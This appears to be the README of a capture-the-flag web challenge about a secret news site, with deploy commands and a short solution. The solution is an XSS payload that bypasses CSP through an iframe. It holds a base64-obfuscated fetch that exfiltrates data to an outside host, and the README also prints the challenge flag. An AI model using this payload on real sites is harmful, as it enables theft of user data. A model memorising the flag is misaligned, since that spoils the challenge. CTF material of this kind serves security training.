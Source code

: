 # web | novosti

![novosti share page](./screenshots/novosti.png)

## Information

Даже в такие тяжёлые времена как сейчас людям нужна информация. Мы решили запустить свой новостной сайт, но только так, чтобы об этом не узнали сам-знаешь-кто. Надеемся, очевидцы будут присылать нам новости, чтобы было, что публиковать. Не самим же искать анонсы, в самом-то деле...

Even in times as difficult as now people need information. We decided to launch our own news website, but would like to keep it secret from you-know-who. Hopefully, the witnesses themselves will send us news we could publish, since we aren't going to be searching for them ourselves now, are we... 

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
NOVOSTI_FLAG="ctfcup{flag}" docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}
